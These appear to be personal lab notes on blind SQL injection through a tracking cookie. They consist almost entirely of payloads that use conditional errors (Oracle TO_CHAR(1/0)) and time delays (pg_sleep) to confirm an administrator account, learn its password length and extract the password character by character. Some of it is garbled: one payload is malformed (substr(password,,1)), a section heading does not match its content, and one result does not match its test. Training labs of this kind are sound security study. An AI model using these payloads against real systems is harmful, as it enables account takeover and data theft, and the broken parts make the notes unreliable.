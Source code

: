3) Confirm that the administrator user exists in the users table
' || (select '' from users where username='administrator') || ' 

' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ' 
-> Internal server error -> administrator user exists

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='fwefwoeijfewow') || ' 
-> 200 response -> user does not exist in database

4) Determine length of password
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || ' 
-> 200 response at 50 -> length of password is less than 50
-> 20 characters

5) Output the administrator password
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,,1)='a') || ' 
-> w is not the first character of the password

### lab_13. Visible error-based SQL injection
Vulnerable parameter - tracking cookie

End Goal:
- to prove that the field is vulnerable to blind SQLi (time based)

Analysis:
select tracking-id from tracking-table where trackingid='OVmpehhTPt2iCL19'|| (SELECT sleep(10))--';

' || (SELECT sleep(10))-- -x
' || (SELECT pg_sleep(10))-- 


### lab_14. Blind SQL injection with time delays
Vulnerable parameter - tracking cookie

End Goals:
- Exploit time-based blind SQLi to output the administrator password
- Login as the administrator user

Analysis:
1) Confirm that the parameter is vulnerable to SQLi
' || pg_sleep(10)--

2) Confirm that the users table exists in the database
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--

3) Enumerate the password length
' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--
-> length of password is 20 characters
